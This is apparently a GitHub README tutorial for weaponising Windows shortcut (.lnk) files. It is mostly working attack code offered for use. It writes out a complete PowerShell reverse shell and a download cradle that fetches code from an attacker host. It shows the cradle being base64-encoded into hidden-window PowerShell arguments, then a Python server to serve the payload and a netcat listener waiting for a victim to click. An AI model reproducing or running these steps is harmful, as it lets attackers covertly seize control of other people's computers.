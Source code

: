 # This is Most underrated attack, if there are so many shortcut links are created . You can Manupulate the .lnk by putting the Raw encoded Code.
Follow this Step to Make a Malicious Link by Putting the Raw code..

# Step By Step 
```language
1. Edit the .lnk link
2. Create file and start a python server
3. start a listner
4. save a the lnk file
```
# 1. step
```language
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut("C:\Common Applications\Notepad.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
# 2. Create a touch.ps1 file  and start a listener
Create a touch.ps1 file and Edit your ip in this .....
```language
$c=New-Object System.Net.Sockets.TCPClient("127.0.0.1",9001);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){;$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+"PS "+"> ";$sby=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()};$c.Close()
```
Create a cradle and put the content in the file and start a server to serv all files.
```language
#make a file and save the cradle content.
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

#Make a encoded raw code and paste with below command.
cat cradle | iconv -t utf-16le | base64 -w0; echo
```
```language
$Shortcut.Arguments = "-Nop -sta -noni -w hidden -encodedCommand <encoded_code_here>"
```
```language
python3 -m http.server 8000
```
# 3. start a listner
```language
rlwrap -cAr nc -lnvp 9001
```
# 4. Save the link and wait for the click on the link
```lanuage
$Shortcut.Save()
```
